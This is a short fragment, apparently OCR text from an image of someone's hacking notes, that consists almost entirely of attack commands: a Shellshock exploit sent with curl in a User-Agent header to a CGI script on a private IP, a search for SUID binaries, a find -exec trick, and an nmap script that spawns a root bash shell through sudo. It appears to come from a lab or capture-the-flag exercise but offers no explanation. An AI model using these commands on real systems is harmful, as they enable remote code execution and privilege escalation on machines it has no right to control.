curl -H "User-Agent: () { :;}; echo; /bin/sudo -l" http://10.8.0.10/cgi-bin/shell.sh
Sudo -l
find hacker -exec whoami \;
find / -perm -u=s -type f 2>/dev/null

 TF=$(mktemp) 
 echo 'os.execute("/bin/bash")' > $TF
sudo nmap --script=$TF 



